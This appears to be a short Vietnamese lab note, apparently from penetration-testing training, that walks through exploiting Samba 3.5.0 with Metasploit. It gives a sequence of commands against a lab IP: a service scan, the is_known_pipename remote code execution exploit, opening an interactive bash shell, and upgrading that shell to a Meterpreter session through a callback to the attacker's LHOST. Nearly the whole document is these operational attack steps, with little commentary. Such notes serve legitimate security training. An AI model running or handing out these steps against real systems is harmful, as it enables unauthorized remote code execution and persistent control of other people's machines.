

# Exploiting Samba

Samba V3.5.0 bị RCE

Mở MSF

`setg RHOSTS 192.234.251.3`

`setg RHOST 192.234.251.3`

`db_nmap -sS -sV -O 192.234.251.3`

`search type:exploit name:samba`

`use exploit/linux/samba/is_known_pipename`

`check`

`run`

ta sẽ có phiên shell

`/bin/bash -i`

ta sẽ tìm cách để lấy phiên meterpreter để dễ dàng cho post exploit

`background` # or CTRL+Z

`sessions`

`search shell_to_meterpreter`

`use post/multi/manage/shell_to_meterpreter`

`set SESSION 1`

`set LHOST eth1`

`run`

`sessions`

`sessions 2`

